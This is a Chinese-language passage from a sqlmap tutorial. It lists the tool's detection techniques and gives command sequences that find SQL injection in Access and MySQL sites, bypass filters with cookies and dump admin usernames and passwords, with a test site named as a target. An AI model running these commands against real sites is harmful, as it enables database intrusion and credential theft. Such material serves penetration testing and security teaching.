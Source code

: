 ```

--technique
这个参数可以指定SQLMAP使用的探测技术，默认情况下会测试所有的方式。
支持的探测方式如下：
B: Boolean-based blind SQL injection（布尔型注入）

E: Error-based SQL injection（报错型注入）

U: UNION query SQL injection（可联合查询注入）

S: Stacked queries SQL injection（可多语句查询注入）

T: Time-based blind SQL injection（基于时间延迟注入）
```

**Access注入**

```
sqlmap -u 注入点url //判断是否有注入

sqlmap -u 注入点url --tables //access直接猜表

sqlmap -u 注入点url  --colums -T admin //爆出admin表，猜解它的字段

sqlmap -u 注入点url  --dump -T admin -C "username,password"  //猜字段内容
```

**MySQL数据库注入**

```
sqlmap -u url  --dbs  //获取数据库

sqlmap  -u  url  -D 指定的数据库 --tables //获取数据库中的表

sqlmap  -u  url  -D 指定的数据库 -T 表名  --columns  //获取表字段

sqlmap  -u  url  -D 指定的数据库 -T 表名  -C id,user,pass --dump  //获取字段内容
```

**Cookie注入**

网站有判断，不让用and,update等参数时就得加上Cookie。

```
sqlmap -u url --cookie="cookie值" --dbs(或)--tables --level 2
```

**POST表单注入**

注入点：

```
http://testasp.vulnweb.com/Login.asp 
```

**几种方式：**
